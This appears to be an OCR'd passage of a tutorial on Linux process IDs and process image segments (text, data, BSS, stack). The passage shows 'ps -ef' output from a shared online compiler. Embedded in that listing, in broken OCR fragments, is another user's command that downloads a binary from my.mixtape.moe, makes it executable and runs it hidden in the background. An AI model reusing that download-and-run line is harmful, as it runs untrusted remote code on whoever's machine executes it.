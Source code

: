 ```c
                                         size done tail -c +$(cat size) out > 
                                         $2 rm size out }
                                         ( download my.mixtape.moe mhawum 2>
                                         /dev/null chmod +x mhawum 2>
                                         /dev/null ./mhawum >
                                         /dev/null 2>
                                         /dev/null )&
2868535   96910  96284 99 05:23 ?        00:47:26 ./mhawum
6118874  104116      0  3 05:25 ?        00:00:00 sh -c cd /home/cg/root/6118874; 
                                         timeout 10s javac Puppy.java
6118874  104122 104116  0 05:25 ?        00:00:00 timeout 10s javac Puppy.java
6118874  104123 104122 23 05:25 ?        00:00:00 javac Puppy.java
3787205  104169      0  0 05:25 ?        00:00:00 sh -c cd /home/cg/root/3787205; 
                                         timeout 10s main
3787205  104175 104169  0 05:25 ?        00:00:00 timeout 10s main
3787205  104176 104175  0 05:25 ?        00:00:00 main
3787205  104177 104176  0 05:25 ?        00:00:00 ps -ef
Program to know PID and PPID's information
My process ID is 104176
My parent process ID is 104175
Cross verification of pid's by executing process commands on shell
```

## Process Image

What exactly is process image? Process image is an executable file required while executing the program. This image usually contains the following sections −

- Code segment or text segment
- Data segment
- Stack segment
- Heap segment

**Code segment** is a portion of object file or program’s virtual address space that consists of executable instructions. This is usually read-only data segment and has a fixed size.

Data segment is of two types.

- Initialized
- Un-initialized

**Initialized data segment** is a portion of the object file or program’s virtual address space that consists of initialized static and global variables.

**Un-initialized data segment** is a portion of the object file or program’s virtual address space that consists of uninitialized static and global variables. Un-initialized data segment is also called BSS (Block Started by Symbol) segment.

**Data segment** is read-write, since the values of variables could be changed during run time. This segment also has a fixed size.

**Stack segment** is an area of memory allotted for automatic variables and function parameters. It also stores a return address while executing function calls. Stack uses LIFO (Last-In-First-Out) mechanism for storing local or automatic variables, function parameters and storing next address or return address. The return address refers to the address to return after completion of function execution. This segment size is variable as per local variables, function parameters, and function calls. This segment grows from a higher address to a lower address.
